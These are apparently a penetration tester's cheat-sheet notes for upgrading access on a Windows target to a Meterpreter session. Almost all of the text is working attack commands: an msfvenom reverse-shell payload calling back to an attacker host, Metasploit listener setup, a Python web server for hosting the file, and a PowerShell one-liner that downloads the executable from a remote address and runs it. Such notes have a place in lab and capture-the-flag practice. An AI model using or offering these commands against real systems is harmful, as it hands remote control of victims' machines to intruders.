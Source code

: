 ## Update to Meterpreter Shell
- only if AV is disabled

- **Msfvenom**
  - `msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.2.7 LPORT=7777 -f exe > shell.exe`
  - chmod +x
  - set up metasploit listener
  - msfconsole
  - search exploit/multi/handler
  - use 6
  - set payload windows/x64/meterpreter/reverse_tcp
  - set lport (match what is in payload)
  - set lhost
  - run
  -  host webserver where file located
    - `python -m SimpleHTTPServer 80`   

- **Powershell**
  - from current powershell
  - `powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.8.16.33:80/shell-name.exe', 'shell-name.exe')"`
    - Example:
      - `powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.8.16.33:80/shell.exe', 'shell.exe')"`
  - dir to make sure in there
  - `Start-Process "shell-name.exe"`
- if not working `cd C:\Windows\Temp`
